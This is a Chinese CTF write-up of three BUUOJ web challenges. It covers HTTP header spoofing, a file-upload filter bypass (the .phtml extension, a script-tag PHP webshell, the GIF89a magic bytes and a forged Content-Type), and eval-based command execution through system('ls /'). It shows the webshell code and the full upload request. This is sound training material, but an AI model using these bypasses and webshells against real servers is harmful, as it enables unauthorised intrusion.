

# 刷题！

## [极客大挑战 2019]Http

进入实例得到一个网站，看不出什么端倪，将源代码拷贝到本地./http.html查看。

在第57行发现Secret.php，在url中尝试直接访问。回显：

It doesn't come from 'https://Sycsecret.buuoj.cn'

结合题目标题名字，我们应该是要修改http的报头来使得在服务端看来我们的请求来自上面这个地址，

类似的后面还有几项要修改，这里简单汇总一下，按照要求修改报头再请求就得到flag。

- Referer: https://example.com/previous-page 正常情况下用来记录跳转前的源网站，一般用于统计流量来源等，这里被我们手动修改来伪造来源
- User-agent：记录浏览器信息，正常来说可以随意修改（在做题的时候，这里被修改为指定Sysclover
- X-Forwarded-For：记录到达服务端的上一个代理地址，这里被我们修改为127.0.0.1，因为提示要从本地访问，利用本地回环地址即可简易伪造成本地请求(测试了一下0.0.0.0不行)

## [极客大挑战 2019]Upload

文件上传类型的简单模版题！

因为文件上传之后应该会存储在服务器内部，所以获取shell的一种直白思路就是放一个木马php进去，然后通过网页url执行。

比较简单的测试木马php可以这么写：

```php
<?php
    shell_exec("echo \"I got you.\"")
?>
```

在本地保存为1.php，然后上传，回显：

No image!

看来是一定要我们提交image文件，一种想法是可以在bs里面修改一下文件类型试试：

```
POST /upload_file.php HTTP/1.1

Host: e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------397188862432432799893869978614

Content-Length: 389

Origin: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

Connection: keep-alive

Referer: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81/

Upgrade-Insecure-Requests: 1

Priority: u=0, i


-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="file"; filename="1.php"

Content-Type: application/x-php


<?php
    shell_exec("echo \"I got you.\"")
?>


-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="submit"


提交

-----------------------------397188862432432799893869978614--
```

把content-type改一下，因为猜测其会过滤文件类型，改成image/png就可以，回显：

NOT！php!

说明应该是过滤了php语言里的一些东西，但我们又需要用php执行来进行渗透，这个时候就需要涨点新知识：

***phtml*** 是一种文件扩展名，通常用于PHP脚本文件。
详细介绍
1. 含义
    .phtml 代表 PHP Hypertext Markup Language。
    本质上是 PHP 文件，内容可以包含 HTML、PHP 代码、CSS、JavaScript 等。

2. 用途
    用于和 .php 文件一样，在服务器端解析为动态网页。
    早期（如 PHP3、PHP4）常用 .phtml 后缀，后来主流变成 .php。
    有些项目可能用 .phtml 区分“纯模板文件”（只输出 HTML 和变量，不包含业务逻辑），但这不是官方标准。

3. 执行方式
    只要服务器（如 Apache/Nginx）配置 .phtml 后缀交给 PHP 解析器处理，该文件就和 .php 一样能执行 PHP 代码。

4. 安全与渗透相关
    安全测试/渗透场景：有时上传过滤只允许 .php，但忘记拦截 .phtml，导致可以上传 WebShell。渗透测试常用此后缀绕过限制。

5. 兼容性
    现代 PHP 环境一般默认支持 .phtml 后缀，只要在服务器配置里有对应的解析规则。

我们把木马用.phtml的格式重写，就可以不再出现php文件的标志性的'<?'(一般都用这个来过滤php文件防注入)：

```phtml
<script language='php'>
    shell_exec("echo \"I got you.\"")
</script>
```

回显：

Don't lie to me, it's not image at all!!!

说明还有进一步的检测，比较普遍的是getimagesize()来检测，这个函数返回图片的大小等信息，我们只需要伪造一个gif的文件头：

GIF89a

就可以轻松绕过，最后得到回显：

上传文件名: 1.phtml

成功上传了！我们访问./upload文件夹来找一下我们上传的文件：



可以看到是成功上传了的，我们尝试执行：

./1.phtml

发现没有输出？

查了一下似乎直接使用shell_exec不行，类似的我们还有system(),修改木马之后即得到回显：

GIF89a I got you. 

看来是没问题了，现在我们先用ls找一下flag，然后取出来就可以。

## [极客大挑战 2019]Knife

标题叫knife，直接用knife软件破解当然是很轻松的，不过大魔导师果然还是要钻研一下原理。

小知识：eval()表示直接执行括号内的 ***php*** 语句

可以直接用Hackbar来进行POST的传入，在输入框内填上a=0&b=1就可以直接用POST方法传入参数了，

我们先测试性传入Syc=phpinfo()，回显正常。

于是我们迫不及待输入`Syc=echo system("ls /");`,却发现没有任何反应，why?

排查了很久都不知道为什么，最后一语点醒梦中人，看一下源代码（永远，永远看网页要看源代码！），发现其实已经显示出来了，只是因为字体颜色也是黑色被背景覆盖了...

总之后面正常RCE拿flag就可以。


